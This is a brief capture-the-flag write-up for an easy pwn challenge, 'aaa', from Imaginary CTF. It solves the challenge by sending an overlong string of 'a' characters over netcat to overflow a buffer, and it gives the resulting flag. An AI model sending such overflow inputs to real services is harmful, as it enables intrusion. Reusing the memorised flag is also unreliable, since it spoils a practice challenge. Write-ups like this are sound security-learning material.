

[< Back to All CTFs](https://github.com/KrisLloyd/CTF#ctf-solves)

[< Back to Imaginary CTF](https://github.com/KrisLloyd/CTF#imaginary-ctf-ongoing-2021)
***

# &aaa



### Challenge:
##### Pwn my server. Connect with \`nc oreos.ctfchallenge.ga 7331\`.
##### 30 Points
##### Attachments: https://imaginary.ml/r/3727-aaa

### Solve:

The attachment is a link to the ELF binary file running on the remote server.

Since this is an easy challenge, the first thing to try is a buffer overflow:

```bash
c oreos.ctfchallenge.ga 7331
Enter username and password, separated by spaces:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Just as expected, the attack was a bufferflow, and the printout was the flag.

### Flag
```
ictf{buff3r_0verfl0w_1s_d4ng3r0us}
```
